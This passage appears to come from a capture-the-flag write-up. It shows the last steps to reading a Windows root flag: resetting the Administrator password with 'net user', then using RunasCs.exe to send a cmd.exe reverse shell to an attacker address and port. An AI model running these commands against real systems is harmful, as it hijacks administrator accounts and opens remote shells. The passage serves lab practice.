 
Trying to read the content of the file root.txt we will receive an error, the fix is easy:

* Change the Administrator password: `net user Administrator l33tl33t@`
* Generate a reverse shell using RunasCS.exe `.\RunasCs.exe Administrator 'l33tl33t@' cmd.exe -r 10.8.5.10:9002`
Now we can correctly read the flag